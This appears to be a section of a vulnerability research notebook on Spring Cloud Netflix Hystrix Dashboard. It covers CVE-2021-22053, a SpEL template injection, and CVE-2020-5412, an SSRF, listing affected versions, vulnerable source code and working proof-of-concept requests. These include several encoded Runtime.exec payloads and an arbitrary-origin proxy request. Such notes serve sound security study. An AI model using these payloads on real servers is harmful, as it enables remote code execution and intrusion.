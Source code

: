 ```
```

### （6）Spring Cloud Netflix Hystrix Dashboard 
#### CVE-2021-22053 SpEL
Affected Version: < 2.2.9.RELEASE + Spring Boot Thymeleaf

POC: 
```
GET /hystrix/;a=a/__${T (java.lang.Runtime).getRuntime().exec("open -a calculator")}__::.x/

/hystrix/;a=a/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7D__::.x
/hystrix;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7D__::.x/
/hystrix/;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7D__::.x/
```
Factor: 
```
org.thymeleaf.spring5.view.ThymeleafView
protected void renderFragment(Set<String> markupSelectorsToRender, Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {
    IStandardExpressionParser parser = StandardExpressions.getExpressionParser(configuration);
    FragmentExpression fragmentExpression;
    try {
        fragmentExpression = (FragmentExpression)parser.parseExpression(context, "~{" + viewTemplateName + "}");
    }
}
org.thymeleaf.standard.expression.StandardExpressionParser
static IStandardExpression parseExpression(IExpressionContext context, String input, boolean preprocess) {
    IEngineConfiguration configuration = context.getConfiguration();
    String preprocessedInput = preprocess ? StandardExpressionPreprocessor.preprocess(context, input) : input;
}
```

#### CVE-2020-5412 SSRF
Affected Version: <  2.2.4 or 2.1.6

Diff: https://github.com/spring-cloud/spring-cloud-netflix/commit/624bbc8b50f7b5b6a1addc62040e4f2587f24f1b

POC: 
```
GET /proxy.stream?origin=www.baidu.com
```
Factor: 
```
org.springframework.cloud.netflix.hystrix.dashboard.HystrixDashboardConfiguration
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String origin = request.getParameter("origin");
    StringBuilder url = new StringBuilder();
    if (!origin.startsWith("http")) {
        url.append("http://");
    }
    url.append(origin);
    String proxyUrl = url.toString();
    try {
        httpget = new HttpGet(proxyUrl);
        HttpClient client = HystrixDashboardConfiguration.ProxyStreamServlet.ProxyConnectionManager.httpClient;
        HttpResponse httpResponse = client.execute(httpget);
    }
}
```